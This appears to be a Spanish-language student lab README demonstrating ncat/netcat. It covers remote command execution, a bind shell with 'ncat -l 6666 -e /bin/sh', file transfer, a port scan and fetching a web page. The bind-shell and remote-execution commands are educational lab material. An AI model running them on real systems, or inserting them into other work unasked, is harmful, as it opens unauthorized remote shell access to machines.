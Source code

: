 ## Miguel Estevez
### 2017-0200


<div align="center" style="font-size:40px">Ncat</div>

### a. Ejecutar una aplicacion/mandato en una maquina remota.

Maquina Atacada
```bash
ncat -l 6666 -e /bin/ls
```
Maquina Atacante
```bash
ncat 10.0.0.3 6666
```
![](./img/1.png)

### b. Convertir maquina atacada en accesible por un puerto dado

```bash
ncat -l 6666 -e /bin/sh
```
![](./img/2.png)
![](./img/3.png)

### c. Enviar archivo de una maquina a otra.

**Receptor**

```bash
nc -l 1499 > salida.out
```

![](./img/5.png)

**Enviador**
```bash
nc 192.168.0.103 1499 < entrada
```

![](./img/4.png)

### d. "Escanear" puertos de maquina atacada.

```bash
nc -z -v -n 192.168.0.103 1-9000
```
![](./img/6.png)

### e. Crear cliente y servidor.

```bash
ncat -l 1499
```


```bash
ncat 192.168.0.103 1499
```

### f. Comunicarse con un servidor: bajar una pagina web

```bash
printf 'GET / HTTP/1.1\r\nHost: github.com\r\n\r\n' | ncat --ssl github.com 443
```
La salida va estar adjunta con este documento por que es muy largo el html.
